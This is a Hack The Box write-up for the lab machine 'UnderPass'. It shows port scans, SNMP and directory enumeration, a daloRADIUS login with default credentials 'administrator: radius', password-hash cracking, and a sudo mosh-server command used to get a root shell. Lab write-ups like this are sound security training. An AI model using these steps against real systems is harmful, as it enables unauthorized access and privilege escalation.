 ```yaml
---
title: "UnderPass(Easy) | Hack the Box"  # Post title
date: 2025-08-12           # Must match filename date
categories: [Hack the box Writeups]         # Optional (max 2)
tags: [htb, linux]     # Optional (max 5-10)
author:               # Defaults to your config name
---
```


# HackTheBox — UnderPass Write-Up

## Recon

I started with a quick TCP scan using **RustScan** to identify open ports:


```shell
sudo rustscan -a 10.10.11.48
```

Only **two** TCP ports were open. They didn’t reveal anything interesting, so I moved to a **UDP** scan to look for additional services:

```shell
sudo nmap -sU 10.10.11.48 -T4
```

The scan revealed UDP port **161 (SNMP)**. The service banner also disclosed the hostname:

```shell
UnDerPass.htb
```

## SNMP Enumeration

Using snmpwalk, I enumerated the SNMP service:

```shell
snmpwalk -v 2c -c public 10.10.11.48
```

This revealed the presence of a **daloRADIUS server**.


## HTTP Enumeration

Accessing the daloRADIUS endpoint returned a **403** Forbidden.

I decided to brute-force directories under /daloradius using Gobuster:

```shell
sudo gobuster dir -u http://10.10.11.48/daloradius \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

The **app** directory looked interesting, so I enumerated it further:

```shell
sudo gobuster dir -u http://10.10.11.48/daloradius/app \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

Inside **/app**, I found **users** and **operators** directories. Proceeded to explore futhur


## Credential Hunting

Visiting **/users** showed a login page:

Searching online for default daloRADIUS credentials gave:

`administrator: radius`

However, these didn’t work for /users. I moved to the **/operators**  directory and repeated enumeration:

```shell
sudo gobuster dir -u http://10.10.11.48/daloradius/app/operators \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php
```

The /operators directory also had a **login page** which included a version number, and for that version, the same default credentials were listed online:

`administrator: radius`

This time, they worked.I was successfully logged in.


## Looting User Data

Inside the dashboard, I found a user list:

One entry contained a password hash:

I cracked it using CrackStation and retrieved the plaintext password:



## Initial Shell

With SSH open, I tried the credentials and logged in successfully--Got the user flag


## Privilege Escalation

Checking sudo permissions:

```shell
sudo -l
```
It allowed running mosh-server with sudo. Did some research online and found this [article]

and came up with this payload:

```shell
mosh --server="sudo /usr/bin/mosh-server" localhost
```

What This Does

    mosh: A mobile shell client for responsive, persistent terminal sessions.

    --server="sudo /usr/bin/mosh-server": Runs the mosh server with root privileges.

    localhost: Connects back to the local machine.

This escalated my privileges, and I obtained root access:

Summary

    Initial Access: SNMP enumeration → daloRADIUS default credentials

    User Shell: Cracked password hash from operator dashboard → SSH login

    Privilege Escalation: Sudo permissions abuse with mosh-server

✅ Rooted!